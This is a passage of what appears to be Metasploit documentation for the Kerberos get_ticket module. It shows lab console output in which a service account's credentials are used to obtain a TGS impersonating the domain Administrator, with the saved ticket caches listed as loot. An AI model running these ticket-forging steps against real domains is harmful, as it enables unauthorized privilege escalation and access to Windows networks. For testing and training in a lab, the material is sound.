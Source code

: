 ```
[+] 10.0.0.24:88 - Received a valid TGS-Response
[*] 10.0.0.24:88 - TGS MIT Credential Cache saved to /home/msfuser/.msf4/loot/20221104183538_default_10.0.0.24_mit.kerberos.cca_849639.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/get_ticket) > loot

Loot
====

host             service  type                 name  content                   info                                                                             path
----             -------  ----                 ----  -------                   ----                                                                             ----
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: krbtgt/mylab.local, username: administrator     /home/msfuser/.msf4/loot/20221104183244_default_10.0.0.24_mit.kerberos.cca_171694.bin
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: cifs/dc02.mylab.local, username: administrator  /home/msfuser/.msf4/loot/20221104183244_default_10.0.0.24_mit.kerberos.cca_360960.bin
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: krbtgt/mylab.local, username: administrator     /home/msfuser/.msf4/loot/20221104183538_default_10.0.0.24_mit.kerberos.cca_200958.bin
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: cifs/dc02.mylab.local, username: administrator  /home/msfuser/.msf4/loot/20221104183538_default_10.0.0.24_mit.kerberos.cca_849639.bin
```

TGS impersonating the Administrator account:

```
msf6 auxiliary(admin/kerberos/get_ticket) > run verbose=true rhosts=10.0.0.24 domain=mylab.local username=serviceA password=123456 action=GET_TGS spn=cifs/dc02.mylab.local impersonate=Administrator
[*] Running module against 10.0.0.24

[*] 10.0.0.24:88 - Getting TGS impersonating Administrator@mylab.local (SPN: cifs/dc02.mylab.local)
[+] 10.0.0.24:88 - Received a valid TGT-Response
[*] 10.0.0.24:88 - TGT MIT Credential Cache saved to /home/msfuser/.msf4/loot/20221201210211_default_10.0.0.24_mit.kerberos.cca_667626.bin
[+] 10.0.0.24:88 - Received a valid TGS-Response
[+] 10.0.0.24:88 - Received a valid TGS-Response
[*] 10.0.0.24:88 - TGS MIT Credential Cache saved to /home/msfuser/.msf4/loot/20221201210211_default_10.0.0.24_mit.kerberos.cca_757041.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/get_ticket) > loot

Loot
====

host             service  type                 name  content                   info                                                                             path
----             -------  ----                 ----  -------                   ----                                                                             ----
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: krbtgt/mylab.local, username: servicea          /home/msfuser/.msf4/loot/20221201210211_default_10.0.0.24_mit.kerberos.cca_667626.bin
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: cifs/dc02.mylab.local, username: administrator  /home/msfuser/.msf4/loot/20221201210211_default_10.0.0.24_mit.kerberos.cca_757041.bin
```
